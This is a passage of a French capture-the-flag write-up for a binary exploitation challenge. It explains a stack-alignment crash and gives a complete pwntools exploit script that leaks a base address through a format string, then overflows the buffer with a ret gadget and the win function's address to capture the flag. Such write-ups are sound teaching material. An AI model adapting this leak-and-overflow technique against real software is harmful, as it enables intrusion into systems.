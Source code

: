 Le payload devrait fonctionner, mais le programme segfault quand même:

![](/lib/images/writeups/german_fcsc/pwn//upload_87522ae9b2a2734684aa5b7939396a6e.png)

En effet, l'adresse sur RSP doit être alignée, donc se terminer par "0". En l'occurence, la stack n'est pas aligné, donc il faut ajouter un "ret" sur la stack pour la réaligner. Pour trouver un gadget "ret", il suffit de le calculer de quelque part:

![](/lib/images/writeups/german_fcsc/pwn//upload_d768f33d01ca5c2deb6a3ec6b1ec693e.png)

La fonction win est le plus simple étant donné qu'on a son adresse dans notre script d'exploitation. Le script final est donc:

```python
#!/usr/bin/python2

from pwn import *

HOST = "hax1.allesctf.net"
PORT = 9100
FORMATSTRING = "|%47$p|"

p = process('./pwn1')
#p = remote(HOST, PORT)
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')

base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))

win_offset = base_addr+0x267
log.info("Adresse de la fonction win: {}".format(hex(win_offset)))

ret_gadget = win_offset+0x36

raw_input("gdb attach")

PAYLOAD = "Expelliarmus\x00"
PAYLOAD += "A"*cyclic_find("cnaa")
PAYLOAD += p64(ret_gadget)
PAYLOAD += p64(win_offset)

p.sendline(PAYLOAD)
p.interactive()
```

![](/lib/images/writeups/german_fcsc/pwn//upload_1fa334b0232b7d042a83359fbfd2efba.png)

## Flag

> CSCG{NOW_PRACTICE_MORE}
